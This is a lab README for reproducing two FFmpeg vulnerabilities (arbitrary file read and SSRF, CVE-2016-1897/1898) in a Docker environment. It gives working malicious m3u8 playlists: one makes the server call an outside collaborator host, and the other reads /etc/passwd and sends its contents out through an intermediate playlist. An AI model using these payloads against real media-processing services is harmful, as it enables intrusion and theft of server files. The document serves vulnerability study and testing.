


# FFmpeg Arbitrary File Read and SSRF (CVE-2016-1897/CVE-2016-1898)

[中文版本(Chinese version)](README.zh-cn.md)

FFmpeg is a popular multimedia framework that can handle various audio and video formats. In the FFmpeg version prior to 2.8.5, 2.7.5, 2.6.7, 2.5.10, 2.4.13, two vulnerabilities were discovered that could allow attackers to read arbitrary files (CVE-2016-1897) or perform Server-Side Request Forgery (SSRF) attacks (CVE-2016-1898).

References:

- <https://tttang.com/archive/465/>
- <http://habrahabr.ru/company/mailru/blog/274855/>
- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>

## Environment Setup

Execute the following commands to build and start the environment:

```
docker compose up -d
```

After the server starts, it will listen on port 8080. Visit `http://your-ip:8080/` to access the application, the application is a simple video player that allows users to upload and play videos.

## Vulnerability Reproduction

Upload the following poc to reproduce the SSRF vulnerability using collaborator server:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request:



To reproduce the arbitrary file reading, you should serve a intermediate file on an accessible server (for example, `http://intermediate.example.com/intermediate.m3u8`) with following content:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

The content of the files you stole will be sent to the collaborator server specified in the intermediary file above.

Then, use the intermediate file to construct the POC and upload it:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request that contains the content of `/etc/passwd`:


